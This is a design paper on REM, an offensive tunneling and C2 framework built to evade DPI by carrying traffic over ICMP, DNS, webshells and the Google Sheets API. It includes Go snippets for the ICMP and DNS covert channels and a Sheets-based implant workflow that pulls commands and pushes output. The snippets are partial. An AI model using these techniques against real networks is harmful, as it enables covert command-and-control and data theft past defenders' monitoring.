

# Your Network, My Transport Layer: An Offensive Perspective on Network Protocol Stacks

## 1. Introduction

### 1.1 Background and Problem Statement

As cyberspace confrontations grow increasingly complex, attackers who successfully penetrate target networks often face highly restrictive environments. Modern defense systems employ Deep Packet Inspection (DPI) and traffic analysis techniques that pose severe challenges to traditional penetration tools in terms of functionality, performance, and stealth. These challenges manifest in three key areas:

First, **traditional tools face performance and functional bottlenecks in complex network environments**. For instance, in channels where only low-priority protocols like ICMP or DNS are permitted for outbound traffic, existing tools suffer from high protocol overhead and unreliable transmission (e.g., `dnscat2`, `icmpsh`), making it difficult to support efficient data transfer and advanced functionality. In multi-hop network scenarios, simple cascading of traditional tools (like `frp`, `shadowsocks`) leads to complex configurations, accumulation of exposed protocol signatures, and exponential performance degradation with each layer, severely limiting penetration depth.

Second, **the fixed protocol nature of tools makes them easily detectable and disrupted**. Facing DPI and traffic analysis, attackers are forced to frequently switch communication protocols (from Shadowsocks to V2Ray, Trojan) with obfuscation layers. However, this "protocol chase game" ultimately proves unsustainable—each new protocol, with its fixed structure and predictable traffic patterns, eventually gets identified by security devices. This reveals a common implicit assumption in traditional tool design: "network protocols have fixed structures," which locks their capabilities within traditional network architecture frameworks.

Finally, **technological silos limit the flexibility and resilience of adversarial strategies**. Despite the rich arsenal of encryption algorithms, tunneling protocols, and obfuscation techniques in network adversarial operations, these technologies exist largely as isolated modules, lacking a unified, flexible mechanism for combination and dynamic orchestration. The tight coupling between existing tools' technical capabilities and specific transport protocols causes them to fail in restricted environments (e.g., DNS/ICMP-only) or require massive redevelopment when specific capability combinations are needed (e.g., "DNS transport + reliable retransmission + encryption"). This architectural limitation makes it difficult for attackers to construct resilient, stealthy, high-performance adversarial communication channels.

In summary, the fundamental problem in current network adversarial operations is not the absence of individual technologies, but rather the lack of a unified architecture that can decouple, flexibly combine, and dynamically orchestrate multiple technologies to address increasingly complex network defenses and diverse penetration scenarios.

### 1.2 Solution: REM's Architectural Innovation

To overcome these challenges, this paper proposes and implements a **Reconfigurable Evasion Module (REM)** architecture. REM's core innovation lies in its **three-layer decoupling and dynamic orchestration mechanism**, designed to build a highly flexible, stealthy, and high-performance platform for network-side adversarial infrastructure. REM achieves this through the following key design principles:

1. **Transport Layer Decoupling**: Abstracts any data-exchangeable medium as a standard connection interface, enabling ICMP, DNS, and even non-traditional communication media (like Google Sheets API, WebShells) to serve as REM's reliable transport layer.
    
2. **Encryption Layer Decoupling**: Designs encryption and obfuscation as independent, arbitrarily nestable modules, using a "reverse read chain" to ensure correct encryption/decryption order while supporting dynamic configuration of encryption schemes for dynamic traffic signature variation.
    
3. **Application Layer Decoupling**: Completely separates application protocol processing logic (SOCKS5, HTTP proxy, etc.) from underlying transport, ensuring the same application code runs on any REM-supported transport layer, significantly improving functional reusability.
    
4. **Dynamic Orchestration Mechanism**: Introduces a priority-controlled Hook mechanism allowing runtime dynamic combination and orchestration of transport, encryption, and application layer capabilities, building customized adversarial channels through concise configuration (e.g., "random 2-4 layer encryption + data compression + TLS outer wrapper").
    

REM aims to be an **infrastructure platform** that integrates all network-side adversarial technologies with infinite configuration possibilities, fundamentally solving the problems of technological silos and architectural ceilings.

### 1.3 Main Contributions

To address the challenges faced by traditional network adversarial tools, this paper proposes and implements the Reconfigurable Evasion Module (REM) architecture. Through fundamental innovation at the protocol stack level, REM provides a highly flexible, stealthy, and performant infrastructure platform for network-side adversarial operations. The main contributions are summarized as follows:

1. **Proposal and implementation of a three-layer decoupled offensive protocol stack architecture**: Through deep decoupling of transport, encryption, and application layers, breaks the tight coupling between traditional tool capabilities and transport protocols, enabling any data exchange medium to serve as a reliable transport layer while supporting arbitrary combinations of encryption obfuscation and application protocol carrying.
    
2. **Construction of dynamically orchestratable traffic shaping and stealth mechanisms**: Innovative design of priority-controlled Hook mechanism enables runtime dynamic orchestration of transport, encryption, obfuscation, and compression functions, effectively countering DPI detection and statistical analysis.
    
3. **Development of zero-performance-loss proxy integration solution**: Through in-memory SOCKS5 proxy protocol simulation and optimized authentication timing, solves performance bottlenecks in traditional proxies under concurrent scenarios, demonstrating near-direct-connection efficiency especially in high-concurrency port scanning scenarios.
    
4. **Extension of covert channel and C2 infrastructure capabilities**: Abstracts non-traditional media like WebShells, Google Sheets API, and SMB named pipes as reliable duplex channels, providing multi-level C2 framework integration solutions (including FFI interface embedding), significantly improving attack communication stealth, flexibility, and performance.
    
5. **Implementation of protocol-boundaryless cascading proxy chains**: Through generalized `proxyclient` library, supports chaining combinations of various proxy protocols (SOCKS, HTTP, SSH, etc.) and REM's own capabilities, building resilient proxy chains across arbitrary media adapted to complex network topologies.
    

Through these innovations, REM achieves transformation from "fixed protocol stack" to "orchestratable protocol stack," fundamentally undermining the foundational assumptions traditional detection relies on, pushing adversarial operations to a new dimension.

REM is not just a tool, but an infrastructure platform for network adversarial operations. For attackers, it provides a unified architecture to compose infinite configuration possibilities.

---

## 2. Offensive Network Protocol Stack Perspective

Based on the theoretical foundation of OSI model reconstruction, the REM architecture implements attack-scenario-oriented OSI layer reconstruction. This reconstruction centers on the transport layer as the core foundation, building session, presentation, and application layer attack capabilities upward, ultimately providing services for various attack application scenarios through the transport layer. It breaks the hierarchical constraints of traditional OSI models, providing significant flexibility and stealth improvements for network-side adversarial operations.

(We provide links to corresponding code implementations in each section, but the code is not the most critical aspect—it's the shift in design philosophy. **We built REM using Golang, but this system can be constructed in any language—Python, Rust, C, etc.**)

**Architecture Diagram and Overview**

[Architecture diagram with mermaid visualization showing the complete technical stack from bottom-layer channels through REM core protocol stack to application scenarios]

### 2.1 Transport Layer: Protocol-Agnostic Transport Abstraction

[https://github.com/chainreactors/rem/tree/master/protocol/tunnel](https://github.com/chainreactors/rem/tree/master/protocol/tunnel)

Traditional network tools fix transport protocols to standard options like TCP/UDP, limiting attack scenario flexibility. REM implements protocol-agnostic transport layer through Tunnel interface abstraction, allowing any protocol that provides net.Conn to serve as the transport layer.

In REM architecture, the transport layer is no longer just the data transport layer in the traditional OSI model, but the cornerstone of the entire attack infrastructure. **Any medium capable of data exchange can serve as the attack transport layer**.

REM's transport layer manifests as tunnels. Each tunnel consists of a dialer and listener. It's important to understand that listener and dialer only represent server-client relationships at the transport layer. Once a tunnel is established, all REM nodes become equal peers—a significant difference from previous proxy tools.

#### 2.1.1 Tunnel Interface: Dependency on net.Conn

[https://github.com/chainreactors/rem/blob/master/protocol/core/tunnel.go](https://github.com/chainreactors/rem/blob/master/protocol/core/tunnel.go)

The Tunnel interface's only requirement is providing net.Conn, which is the foundational dependency of REM's entire transport layer. Regardless of underlying protocol, it must ultimately provide the standard net.Conn interface.

net.Conn is a core interface in Golang's standard library representing network connections, providing three basic methods: Read/Write/Close, representing a bidirectional, stream-oriented network connection (similar to TCP). Any type implementing these three methods can be used as a network connection.

**Two Protocol Scenarios:**

- **Scenario A - Standard Protocols**: TCP, UDP, WebSocket, WireGuard, and other standard protocols directly provide net.Conn interface, requiring no additional conversion to serve as Tunnel
- **Scenario B - Inferior Protocols**: ICMP, DNS, HTTP API, webshell, and others cannot directly provide net.Conn, requiring transformation through the chain described in Section 2.2

The Tunnel interface design is elegant, requiring only implementation of Dialer and Listener:

```go
type TunnelDialer interface {
    Dial(dst string) (net.Conn, error)  // Must return net.Conn
}

type TunnelListener interface {
    net.Listener  // Golang standard listener interface
    Listen(dst string) (net.Listener, error)  // Accept() returns net.Conn
}
```

**net.Conn Interface Definition**:

```go
// net.Conn interface in Golang standard library
type Conn interface {
    Read(b []byte) (n int, err error)   // Read data
    Write(b []byte) (n int, err error)  // Write data
    Close() error                        // Close connection
    // ... plus address, timeout helper methods
}
```

Tunnel doesn't care about underlying protocol implementation details, only whether it can ultimately provide the net.Conn interface. This achieves protocol agnosticism:

- TCP, UDP, Unix Socket provided by Golang standard library can be used directly
- ICMP, DNS converted through Section 2.2 can be used identically
- Any custom protocol implementing net.Conn interface can be integrated

Golang's net.Conn interface is widely used across various network libraries (HTTP, TLS, shadowsocks, etc.), allowing REM to maximally leverage the Golang ecosystem. For example, HTTP library's http.Client, TLS library's tls.Client all accept net.Conn as underlying transport. A Telegram API-based channel, once wrapped as net.Conn, can directly layer TLS, shadowsocks, and other encryption.

**io.ReadWriteCloser Interface**: The net.Conn interface actually inherits the io.ReadWriteCloser interface (with only Read/Write/Close methods), a more simplified interface widely used in Golang, including file operations, memory buffers, encryption streams, etc.

This approach is simple and clear, maximally leveraging Golang's existing infrastructure. Any transport protocol implementing net package interfaces can serve as REM's transport layer with minimal modification.

#### 2.1.2 Secondary Wrapping of Conn

Established connections often need additional processing (TLS encryption, data compression, statistical countermeasures, etc.). The Conn secondary wrapping mechanism, inspired by frp's design, injects processing logic before and after connection establishment through BeforeHook/AfterHook, combined with priority mechanism for flexible connection extension.

**Details of the Hook mechanism are covered in Section 2.5.**

In practice, REM provides a mechanism supporting secondary processing operations on Conn, implementing various complex functionalities supported by Golang on stable Conn, such as:

**Example 1: TLS Encryption**

TLS encryption is the most common application, used to add encryption protection to arbitrary transport layers:

```go
// TLS encryption Hook implementation
func WithTLS() TunnelOption {
    return newFuncTunnelOption(func(do *TunnelService) {
        if do.listener != nil {
            // Server mode: Add TLS to listener
            tlsConfig, err := utils.NewServerTLSConfig("", "", "")
            if err != nil {
                return
            }
            do.afterHooks = append(do.afterHooks, core.AfterHook{
                Priority: TLSPriority,  // Highest priority, ensuring TLS outermost
                ListenHook: func(ctx context.Context, listener net.Listener) (context.Context, net.Listener, error) {
                    // Wrap as TLS Listener
                    tlsListener := tls.NewListener(listener, tlsConfig)
                    return ctx, tlsListener, nil
                },
            })
        } else {
            // Client mode: Add TLS to Dialer
            tlsConfig, err := utils.NewClientTLSConfig("", "", "", "")
            if err != nil {
                return
            }
            do.afterHooks = append(do.afterHooks, core.AfterHook{
                Priority: TLSPriority,
                DialerHook: func(ctx context.Context, c net.Conn, addr string) (context.Context, net.Conn, error) {
                    // Wrap as TLS connection
                    tlsConn := tls.Client(c, tlsConfig)
                    // Perform TLS handshake
                    if err := tlsConn.Handshake(); err != nil {
                        c.Close()
                        return ctx, nil, err
                    }
                    return ctx, tlsConn, nil
                },
            })
        }
    })
}
```

**Value of TLS Hook**:

- **Encryption Protection**: All data encrypted via TLS, preventing man-in-the-middle monitoring
- **Protocol Agnostic**: Can add TLS layer to non-standard protocols like ICMP, DNS
- **Certificate Verification**: Optional certificate verification, supporting self-signed certificates
- **Application Scenario**: Wrap plaintext ICMP tunnel as encrypted ICMP-over-TLS tunnel

**Example 2: Data Compression Hook**

Compression Hook reduces transmission data volume, particularly suitable for bandwidth-constrained scenarios:

```go
// Compression Hook implementation
func WithCompression() TunnelOption {
    return newFuncTunnelOption(func(do *TunnelService) {
        if do.listener == nil {
            // Client mode
            do.afterHooks = append(do.afterHooks, core.AfterHook{
                Priority: WrapperPriority + 5,
                DialerHook: func(ctx context.Context, c net.Conn, addr string) (context.Context, net.Conn, error) {
                    // Wrap connection using Snappy compression algorithm
                    compressedConn := cio.WrapConn(c, wrapper.NewSnappyWrapper(c, c, nil))
                    return ctx, compressedConn, nil
                },
            })
        } else {
            // Server mode
            do.afterHooks = append(do.afterHooks, core.AfterHook{
                Priority: WrapperPriority - 5,
                AcceptHook: func(ctx context.Context, c net.Conn) (context.Context, net.Conn, error) {
                    // Server also needs same compression configuration
                    compressedConn := cio.WrapConn(c, wrapper.NewSnappyWrapper(c, c, nil))
                    return ctx, compressedConn, nil
                },
            })
        }
    })
}
```

Compression Hook leverages the Snappy algorithm to achieve efficient data compression with minimal latency increase, greatly enhancing data transmission capability in low-bandwidth, restricted channels.

_(In OSI model terms, this is equivalent to data link layer tunnel abstraction and flow control mechanisms)_

### 2.2 Below Transport Layer: Transforming Arbitrary Protocols to Standard Connections

Section 2.1's Tunnel requires net.Conn. Standard protocols (TCP/UDP/WebSocket) can provide it directly, but relatively inferior protocols like ICMP/DNS/HTTP API cannot directly provide it. Even more inferior lolc2 channels, despite having tremendous value in attack scenarios (bypassing firewalls/NAT/application-layer filtering), need transformation. REM solves this through a two-layer transformation chain: Simplex wraps arbitrary data exchange as PacketConn and implements duplexing, ARQ provides reliability guarantees for PacketConn and converts to net.Conn, ultimately outputting standard connections with equal standing to TCP.

Code: [https://github.com/chainreactors/rem/tree/master/x/kcp](https://github.com/chainreactors/rem/tree/master/x/kcp)  
[https://github.com/chainreactors/rem/tree/master/x/simplex](https://github.com/chainreactors/rem/tree/master/x/simplex)

**Differences Between Two Protocol Scenarios:**

|Scenario|Protocol Type|Characteristics|Can Directly Provide Conn|Handling Method|
|---|---|---|---|---|
|Scenario A|TCP/UDP/WebSocket|Bidirectional, reliable, standard interface|✅ Yes|Directly used for Tunnel|
|Scenario B|ICMP/DNS/HTTP API/webshell|Unidirectional/unreliable/non-standard|❌ No|Requires Section 2.2 transformation|

Section 2.1 described how Scenario A's standard protocols can directly serve as transport layer. However, in network adversarial scenarios, we frequently encounter Scenario B's "inferior" protocols: ICMP, HTTP API, webshell, DNS queries, etc. These protocols have various deficiencies: unreliable, unidirectional communication, poor performance, severe restrictions, but are often the only available breakthrough means.

The goal is to transform Scenario B's inferior protocols into standard net.Conn with equal standing to Scenario A, delivering to Tunnel for unified use.

**Transformation Chain Design:**

```
Inferior Protocols (ICMP/DNS/HTTP API/webshell)
  ↓
[Step 1: Simplex - Duplexing]
  • Wrap as unified PacketConn interface
  • Convert unidirectional to bidirectional through polling
  ↓
Bidirectional PacketConn (bidirectional but unreliable)
  ↓
[Step 2: ARQ - Reliability]
  • Provide retransmission, ordering, flow control guarantees
  • Convert to net.Conn interface
  ↓
net.Conn (bidirectional and reliable)
  ↓
[Delivered to Section 2.1 Tunnel]
```

#### 2.2.1 Simplex: Wrapping Arbitrary Data Exchange to PacketConn and Duplexing

ICMP/DNS/HTTP and other protocols are inherently unidirectional or asymmetric data exchanges. They first need unified wrapping as the PacketConn interface, while converting unidirectional communication to bidirectional through polling mechanism.

The first transformation step wraps any form of data exchange as the unified PacketConn interface while solving unidirectional communication issues. This is the foundation of the entire transformation chain.

net.PacketConn is an interface in Golang's standard library representing packet-oriented connections (similar to UDP), performing packet-level send/receive through ReadFrom/WriteTo methods. Each read/write is a complete packet, different from streaming net.Conn.

**PacketConn Interface Definition:**

```go
// net.PacketConn interface in Golang standard library
type PacketConn interface {
    ReadFrom(p []byte) (n int, addr net.Addr, err error)   // Read packet
    WriteTo(p []byte, addr net.Addr) (n int, err error)    // Send packet
    Close() error                                           // Close connection
    // ... plus address, timeout helper methods
}
```

**Difference from net.Conn**:

- **net.Conn**: Stream connection, data transmitted as byte stream, with boundary concept (like TCP)
- **net.PacketConn**: Packet connection, each read/write is complete packet, unordered and possibly lost (like UDP)

**Wrapping Methods for Various Protocols:**

- **ICMP packets**: Directly use ping packet send/receive as PacketConn data exchange
- **HTTP API calls**: Simulate PacketConn communication through HTTP request sending and response receiving
- **Webshell command execution**: Simulate PacketConn communication through command execution input and echo output
- **DNS queries**: Simulate PacketConn communication through DNS query requests and responses
- **Social media APIs**: Simulate PacketConn communication through data exchange via comments, posts, etc. APIs

**Simplex Interface Abstraction:**

After providing an intermediate layer wrapping arbitrary data exchange protocols as PacketConn, we still need to transform PacketConn through some conversion into a streaming duplex channel, not just individual packets. **The upper limit of individual packets is C2's heartbeat channel**.

We achieved transformation from **PacketConn** to **io.ReadWriteCloser** by adding Send/Receive and polling mechanism. Like what the tunnel layer did in Section 2.1.1, we perform a similar operation at the simplex layer, but with a different purpose. We aim to convert **PacketConn** to **io.ReadWriteCloser** through **polling**.

```go
// Simplex interface: unified bidirectional data exchange abstraction
type Simplex interface {
    Send(pkts *SimplexPackets, addr *SimplexAddr) (n int, err error)
    Receive() (pkts *SimplexPacket, addr *SimplexAddr, err error)
    Close() error
}
```

**Three Polling Modes:**

Simplex simulates duplex transmission through polling mechanism, selecting different polling strategies based on channel characteristics:

**Mode 1: Client Polling (Most Common)**

- **Applicable Scenarios**: HTTP API, WebShell, Google Sheets, and other channels allowing only client-initiated requests
- **Working Principle**: Client periodically polls server to check for new data
- **Typical Applications**:
    - HTTP API: `GET /poll` periodically retrieves pending commands
    - Google Sheets: Client periodically reads column A cells for commands
    - WebShell: Client periodically sends special requests to retrieve server-cached data

**Mode 2: Server Polling (Reverse Channel)**

- **Applicable Scenarios**: Certain special channels allowing server to actively read client data
- **Working Principle**: Server periodically checks shared storage locations, reading data written by client
- **Typical Applications**:
    - File sharing systems: Server monitors specific directories, reading files uploaded by client
    - Message queues: Server subscribes to specific topics, receiving messages published by client

**Mode 3: Bidirectional Polling (Symmetric Channel)**

- **Applicable Scenarios**: Neither side can actively push; can only exchange data through shared storage
- **Working Principle**: Both client and server periodically poll shared storage, each reading data written by the other
- **Typical Applications**:
    - Google Sheets bidirectional: Client polls column A (command input), server polls column B (command output)
    - Cloud storage channel: Both sides monitor their designated file or object storage locations

Through the Simplex interface, any data exchange medium (whether unidirectional, bidirectional, symmetric, or asymmetric) is uniformly wrapped as the PacketConn interface, providing standardized input for the next ARQ reliability transformation.

**Case 1: ICMP Covert Channel Implementation Details**

The core value of the ICMP protocol lies in bypassing firewall restrictions. Traditional firewalls typically allow ICMP Echo (ping) traffic through. REM exploits this characteristic by hiding attack data in ICMP packet payloads:

```go
func (c *icmpConn) WriteTo(p []byte, addr net.Addr) (n int, err error) {
    // Construct ICMP Echo message, attack payload hidden in Data field
    m := &icmp.Message{
        Type: msgType,  // ICMP Echo Request/Reply
        Body: &icmp.Echo{
            ID: remoteID,    // Session identifier
            Seq: int(seq),   // Sequence number
            Data: data,      // Attack data hidden here
        },
    }

    // Serialize ICMP message
    wb, err := m.Marshal(nil)
    if err != nil {
        return 0, err
    }

    // Send raw ICMP packet
    return c.conn.WriteTo(wb, addr)
}
```

Key technical points:

- **Raw sockets**: Use golang.org/x/net/icmp to directly construct ICMP packets, bypassing OS ICMP processing
- **Sequence number management**: Identify different packets through Seq field, supporting concurrent transmission
- **Session isolation**: Distinguish different sessions through ID field, supporting multiple connections multiplexing same ICMP channel

**Case 2: DNS Covert Channel Implementation Details**

DNS protocol has higher stealth value—even in strict network environments, DNS traffic is rarely blocked. REM implements bidirectional data transmission through DNS queries and responses:

```go
// Send data: Encode data into DNS query domain name
func (c *dnsClient) Send(pkts *SimplexPackets, addr *SimplexAddr) (n int, err error) {
    // Base58 encoding to avoid unsupported DNS characters
    encoded := base58.Encode(data)

    // DNS label length limited to 63 bytes, needs segmentation
    // Complete domain name limited to 253 bytes
    labels := splitToLabels(encoded, 63)

    // Construct DNS query: data1.data2.data3.yourdomain.com
    domain := strings.Join(labels, ".") + "." + c.domain

    // Send DNS query
    msg := &dns.Msg{}
    msg.SetQuestion(domain, dns.TypeTXT)
    return c.client.Exchange(msg, c.server)
}

// Receive data: Extract data from DNS response TXT records
func (c *dnsServer) Receive() (pkts *SimplexPacket, addr *SimplexAddr, err error) {
    // Parse DNS query
    msg := parseDNSQuery()

    // Extract data from domain name
    labels := strings.Split(msg.Question[0].Name, ".")
    encoded := strings.Join(labels[:len(labels)-2], "")

    // Base58 decode to get original data
    data := base58.Decode(encoded)

    return &SimplexPacket{Data: data}, addr, nil
}
```

Key techniques for DNS channel:

- **Base58 encoding**: Avoids special characters unsupported by DNS, shorter than Base64
- **Label segmentation**: DNS labels limited to 63 bytes, complete domain limited to 253 bytes, requires intelligent segmentation
- **TXT records**: Server response uses TXT records to transmit data, single record maximum 255 bytes
- **Query aggregation**: Multiple small packets can be merged into one DNS query for efficiency

**Case 3: Google Sheets Covert Channel Implementation Details**

Google Sheets is a widely used online collaboration tool. By using the Google Sheets API, spreadsheet cells become data exchange media, with traffic completely hidden in legitimate office traffic:

```go
// Google Sheets cell layout design
const (
    sheetCommandCell = "A"  // Column A: Command input
    sheetOutputCell  = "B"  // Column B: Command output
    sheetTimestamp   = "C"  // Column C: Timestamp
    sheetTickerCell  = "E2" // E2 cell: Polling interval configuration
)

// Client polling: Read commands from column A
func (g *GoogleClient) pullCommand(rowIndex int) (string, error) {
    // Read command from specified row in column A
    readRange := fmt.Sprintf("%s!%s%d", sheetName, sheetCommandCell, rowIndex)

    url := fmt.Sprintf(
        "https://sheets.googleapis.com/v4/spreadsheets/%s/values/%s",
        sheetID, readRange,
    )

    resp, _ := g.client.Get(url)
    // Parse JSON response to get command text
    return command, nil
}

// Client push: Write output to columns B-C
func (g *GoogleClient) pushOutput(rowIndex int, output string) error {
    // Write to columns B-C (output and timestamp)
    writeRange := fmt.Sprintf("%s!%s%d:%s%d", sheetName,
        sheetOutputCell, rowIndex, sheetTimestamp, rowIndex)

    url := fmt.Sprintf(
        "https://sheets.googleapis.com/v4/spreadsheets/%s/values/%s?valueInputOption=RAW",
        sheetID, writeRange,
    )

    // Construct write data
    valueRange := ValueRange{
        Range:  writeRange,
        Values: [][]interface{}{{output, getCurrentTime()}},
    }

    body, _ := json.Marshal(valueRange)
    req, _ := http.NewRequest("PUT", url, strings.NewReader(string(body)))
    g.client.Do(req)
    return nil
}
```

**Google Sheets Channel Workflow**:

```
Client(Implant)          Google Sheets          Server(C2 Server)
  |                          |                          |
  |                          |<--[1. Write A2: "whoami"]--|
  |--[2. Poll read A2]------>|                          |
  |<-[3. Return: "whoami"]---|                          |
  |                          |                          |
  |--[4. Write B2-C2]------->|                          |
  |   "admin" + timestamp    |                          |
  |                          |--[5. Read B2-C2]-------->|
  |                          |                          |
```

Google Sheets channel accesses spreadsheets through Service Account OAuth2 authentication, uses column separation for bidirectional communication (column A stores command input, columns B-C store output and timestamp), uses batchGet API to read multiple cell ranges at once to reduce request count. E2 cell stores dynamic polling interval configuration allowing remote adjustment of communication frequency. All operations use standard Sheets API exclusively, with traffic signatures indistinguishable from normal office operations.

Regardless of underlying protocol, all are wrapped as the same PacketConn interface and implement bidirectional communication capability through polling mechanism, providing standardized input for the upper ARQ protocol.

**Simplex Interface and Duplexing Mechanism**

Many protocols (like HTTP API, WebShell, Google Sheets) are inherently unidirectional communication—only allowing client-initiated requests, with server unable to actively push data. The Simplex interface, through unified Send/Receive abstraction and flexible polling mechanism, transforms these unidirectional channels into bidirectional communication.

#### 2.2.2 ARQ: Reliability Guarantee and Interface Transformation from PacketConn to Conn

Simplex output PacketConn is bidirectional but unreliable, requiring ARQ protocol to provide retransmission, ordering guarantee, flow control, and other reliability mechanisms, ultimately converting to net.Conn interface for Tunnel use.

Traditional ARQ protocols (like KCP) are tightly coupled with specific transport protocols, limiting application scenarios. REM achieves ARQ protocol decoupling through PacketConn abstraction, allowing any ARQ implementation to work on arbitrary PacketConn.

**ARQ and PacketConn Decoupling Design**:

```go
// ARQ protocol decoupling from PacketConn
func NewARQSession(pc PacketConn) net.Conn {
    // ARQ protocol no longer cares if underlying is UDP, ICMP, or DNS
    // Only performs packet send/receive through PacketConn interface
    // Ultimately outputs standard net.Conn interface
}
```

- Any protocol implementing PacketConn interface (UDP, ICMP, DNS, HTTP, etc.) can serve as ARQ transport layer
- ARQ protocol can evolve independently, unrestricted by underlying transport protocol
- Achieves complete decoupling between reliable transmission protocol and underlying transport medium

**Multiple ARQ Protocols for On-Demand Selection**:

REM supports arbitrary ARQ protocol implementations, flexibly selecting based on scenario requirements. We provide two ARQ protocols by default:

1. **KCP Protocol**: Mature ARQ implementation providing fast retransmission and congestion control, suitable for low-latency scenarios
2. **Custom ARQ**: Lightweight implementation supporting NACK mechanism and adaptive parameter adjustment, suitable for restricted low-rate environments

By decoupling ARQ from PacketConn association, users can select the most suitable ARQ protocol based on network environment (latency, packet loss rate, bandwidth), even implementing custom ARQ algorithms.

**Further Control of Statistical Signatures**:

The ARQ layer provides additional statistical countermeasure capabilities. By adjusting ARQ parameters (retransmission interval, window size, timeout, etc.), traffic's temporal characteristics and packet size distribution can be altered, making it harder to identify through statistical analysis. For example, randomizing retransmission delays and dynamically adjusting window sizes can break traditional ARQ protocols' predictable patterns.

#### 2.2.3 Final Output: net.Conn with Equal Standing to TCP

After Simplex duplexing and ARQ reliability guarantees, originally inferior protocols finally output standard net.Conn interface, gaining capabilities and standing completely equal to TCP/UDP at the Tunnel layer.

After these transformations, originally inferior protocols finally output as standard net.Conn interface, possessing capabilities completely equal to TCP/UDP.

**Capabilities of Standard net.Conn:**

```go
type Conn interface {
    Read(b []byte) (n int, err error)
    Write(b []byte) (n int, err error)
    Close() error
}
```

**Complete Transformation Chain:**

```
Inferior Protocols (ICMP/HTTP/WebShell/DNS/lolc2)
    ↓ [Simplex: Wrap as PacketConn + Duplexing]
Bidirectional PacketConn (stateless packet interface)
    ↓ [ARQ: Reliability guarantee + interface transformation]
Standard net.Conn
    ↓ [Deliver to Section 2.1 Tunnel]
Equal standing with TCP/UDP
```

Through this transformation mechanism, REM achieves true protocol equality:

- **Completely airgapped**: Establish reliable connection through webshell, supporting proxy, tunnel, forwarding
- **HTTP-only allowed**: Establish complete TCP connection through HTTP API, supporting any upper-layer protocol
- **DNS-only allowed**: Establish covert tunnel through DNS queries, supporting data transmission
- **Whitelist IP/domain only**: Establish reliable connection through lolc2
- .....

_(In OSI model terms, this involves physical layer raw packet construction, data link layer frame encapsulation, and transport layer reliability guarantee mechanisms)_

Through designs in Sections 2.1 and 2.2, we've achieved **building full-duplex communication transport layer from any arbitrary data exchange**. **Is this the end?**

### 2.3 Above Transport Layer: Inverted Session and Presentation Layers

Traditional OSI model's "multiplex-then-encrypt" approach exposes internal communication structure. REM achieves complete data control through inverted architecture (encrypt-then-multiplex), where data above the transport layer first undergoes Wrapper encryption/obfuscation, then Mux multiplexing.

In the traditional OSI model, session and presentation layers are independent functional layers. REM architecture fuses these layers, creating more powerful attack capability combinations.

#### 2.3.1 Inverted Architecture: Achieving Complete Data Control

Multiplexing before encryption allows detection devices to see internal multiplexing structural signatures. Inverting to encrypt-then-multiplex ensures detection devices only see encrypted single data streams.

The core goal of REM's inverted architecture is **complete control over data**. By placing the session layer above the presentation layer, data must first undergo encryption/obfuscation processing before reaching the application layer, then connection multiplexing management.

**Complete Data Flow Control**

[Mermaid diagram showing Traditional OSI Architecture vs REM Inverted Architecture]

The core value of this inverted design:

1. **Encrypt first, multiplex later**: Data above transport layer first undergoes complete encryption/obfuscation, then multiplexing
2. **Completely controllable data flow**: Attackers complete all necessary data processing before data reaches target application
3. **Hide internal structure**: Detection devices cannot see internal multiplexing structure, only encrypted data streams

#### 2.3.2 Presentation Layer (Wrapper): Dynamic Encryption/Obfuscation Chain

Single encryption algorithms are easily identified; multiple nested encryption and obfuscation are needed. Wrapper achieves arbitrary combination of encryption/obfuscation through chained processing architecture and reverse read chain design, while ensuring correct encryption/decryption order.

Code: [https://github.com/chainreactors/rem-community/tree/master/protocol/wrapper](https://github.com/chainreactors/rem-community/tree/master/protocol/wrapper)

**Wrapper Chained Processing Architecture**

REM's Wrapper layer adopts chained processing architecture based on standard io.ReadWriteCloser interface design, supporting streaming encryption and dynamic configuration mechanisms. Core components include WrapperChain processor chain and ChainReader read chain, implementing layered data encryption processing.

**Reverse Read Chain Design**

To ensure correct decryption order, the read chain uses reverse construction: data writes start from first wrapper (encryption order), data reads start from last wrapper (decryption order), ensuring nested encryption correctness.

Assuming three wrapper layers configured: AES-CFB → XOR → HTTP camouflage

Write data flow:

```
Plaintext data
  ↓ [AES-CFB encryption]
AES ciphertext
  ↓ [XOR obfuscation]
XOR obfuscated data
  ↓ [HTTP header wrapping]
Camouflaged HTTP traffic
  ↓
Network transmission
```

Read data flow (reverse):

```
Network reception
  ↓ [HTTP header stripping]
XOR obfuscated data
  ↓ [XOR de-obfuscation]
AES ciphertext
  ↓ [AES-CFB decryption]
Plaintext data
```

This reverse read design supports arbitrary number and type of wrapper dynamic combinations, ensuring "outer wraps inner" correct encryption/decryption order while maintaining completely transparent standard `io.ReadWriteCloser` interface for upper-layer calls. It allows attackers to flexibly combine different encryption/obfuscation techniques according to specific needs, implementing customizable traffic camouflage, providing multi-level data protection.

#### 2.3.3 Session Layer (Mux): Lightweight Multiplexing

Existing protocols like smux/yamux have identifiable statistical signatures. REM implements zero-signature multiplexing through custom protobuf message format and Redirect mechanism, avoiding detection device identification.

REM uses protobuf to define message format, combined with buffer management mechanism, implementing its own multiplexer. It avoids statistical signatures of existing multiplexing protocols like smux/yamux, while providing capabilities like zero-signature design, adaptive buffering, intelligent scheduling, and error recovery.

_(In OSI model terms, this corresponds to session layer connection management and presentation layer encryption/obfuscation. REM inverts and fuses both to achieve complete data control)_

### 2.4 Between Transport Layers: Protocol-Boundaryless Proxy Integration

Attack scenarios often require traversing multiple network layers (firewalls/enterprise proxies/WebShells). proxyclient integrates various proxy protocols (SOCKS/HTTP/SSH/neoreg/suo5) as composable modules through unified Dialer abstraction and dynamic registration mechanism, achieving protocol-boundaryless proxy capabilities.

Code: [https://github.com/chainreactors/proxyclient](https://github.com/chainreactors/proxyclient)

